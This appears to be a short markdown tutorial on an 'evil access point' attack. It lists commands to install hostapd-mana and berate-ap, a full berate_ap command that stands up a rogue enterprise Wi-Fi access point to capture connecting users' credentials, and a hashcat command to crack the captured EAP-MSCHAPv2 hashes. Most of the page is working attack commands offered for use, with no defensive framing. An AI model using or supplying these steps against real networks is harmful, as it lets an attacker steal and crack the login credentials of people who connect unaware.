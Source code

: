 # Evil Access Point Attack

This attack used hostapd-mana with berate-ap to create a fake access point which can retrieve the (hashed) credentials of users connecting to it.

## Install tools

```
sudo apt-get update
sudo apt install hostapd-mana
sudo apt install berate-ap
```

## Create fake access point

```
sudo berate_ap --eap -n wlan0 “Evil Access Point” --eap-cert-subj “/O=LIVE/ST=Somewhere/” --mana-wpe --mana-eapsuccess -w 3
```

This command will create a fake access point with the ssid, if a user connects to it his credentials will be stolen. In case of ttls they will be available in plaintext, otherwise you will have to crack the hashed password.

## Crack the password hash

### EAP-MSCHAPv2

In case the hash used is EAP-MSCHAPv2 you can decrypt the password with hashcat and a wordlist by running:

```
hashcat -m 5500 -a 0 username::::hash:hash wordlist.dict -o cracked.txt
```

## Links

- [Video Tutorial](https://www.youtube.com/watch?v=ULBQh5USuwo)
